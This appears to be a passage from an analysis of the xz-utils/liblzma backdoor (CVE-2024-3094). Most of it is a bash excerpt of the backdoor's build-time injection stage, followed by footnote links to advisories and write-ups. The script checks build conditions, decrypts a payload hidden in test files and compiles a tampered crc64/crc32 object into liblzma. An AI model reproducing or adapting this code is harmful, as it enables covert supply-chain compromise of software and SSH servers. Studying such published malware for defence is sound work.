 ```bash
if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc64_fast.c; then
exit 0
fi
if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc32_fast.c; then
exit 0
fi
if ! grep -qs "$R" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
if ! grep -qs "$x" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
if ! grep -qs "$C" ../../libtool; then
exit 0
fi
if ! echo $liblzma_la_LINK | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
exit 0
fi
if echo $liblzma_la_LINK | grep -qs -e "lazy" > /dev/null 2>&1;then
exit 0
fi
N=0
W=0
Y=`grep "dnl Convert it to C string syntax." $top_srcdir/m4/gettext.m4`
eval $zrKcjv
if test -z "$Y"; then
N=0
W=88664
else
N=88664
W=0
fi
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<8192;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
if ! test -f liblzma_la-crc64-fast.o; then
exit 0
fi
cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_X86_CLMUL) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
eval $yosA
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
sed "/include \"crc_x86_clmul.h\"/a \\$V" | \
sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc64_fast.c\"" 2>/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then
cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o || true
eval $BPep
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \
sed "/include \"crc32_arm64.h\"/a \\$V" | \
sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
```

[^1]: [oss-security - backdoor in upstream xz/liblzma leading to ssh server compromise](https://www.openwall.com/lists/oss-security/2024/03/29/4)
[^2]: [FAQ on the xz-utils backdoor (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27#design)
[^3]: [landlock(7) - Linux manual page](https://man7.org/linux/man-pages/man7/landlock.7.html)
[^4]: [CheckCSourceCompiles — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckCSourceCompiles.html)
[^5]: [CheckIncludeFile — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckIncludeFile.html)
[^6]: [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)
[^7]: [amlweems/xzbot](https://github.com/amlweems/xzbot)
[^8]: [XZ Utils backdoor](https://tukaani.org/xz-backdoor/)
[^9]: [xz-utils backdoor situation](https://gist.github.com/martenson/398bdb7a928069cf67606c9ba919a7ce)
[^10]: [xz-utils backdoor situation (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27)